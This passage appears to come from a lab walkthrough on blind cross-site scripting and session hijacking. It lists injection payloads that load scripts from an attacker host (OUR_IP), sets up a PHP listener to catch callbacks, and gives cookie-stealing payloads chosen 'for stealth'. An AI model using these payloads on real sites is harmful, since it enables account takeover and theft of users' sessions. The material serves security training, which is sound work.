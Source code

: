 Useful examples from PayloadAllTheThings:
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
<script>var a=document.createElement('script');a.src='http://OUR_IP';document.body.appendChild(a)</script>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send()</script>
<script>$.getScript("http://OUR_IP")</script>
```

Start a simple server on our VM to catch any hits:
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

Now test input fields like this:
```html
<script src=http://OUR_IP/fullname></script>  # goes in full-name field
<script src=http://OUR_IP/username></script>  # goes in username field
```

> ⚠️ Tip: Skip fields like email if they enforce strict formatting and aren’t rendered on the page.

Once we receive a call to our server, we note:
- The field name (from script URL)
- The payload used

---

### Exploiting with Session Hijacking

Once we find a working payload and know which field is vulnerable, we hijack the session.

Simple cookie exfiltration payloads:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

We'll use the second option for stealth.

Save it into `script.js`:
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Inject it like so:
```html
<script src=http://OUR_IP/script.js></script>
```

---

### Cookie Stealing Backend
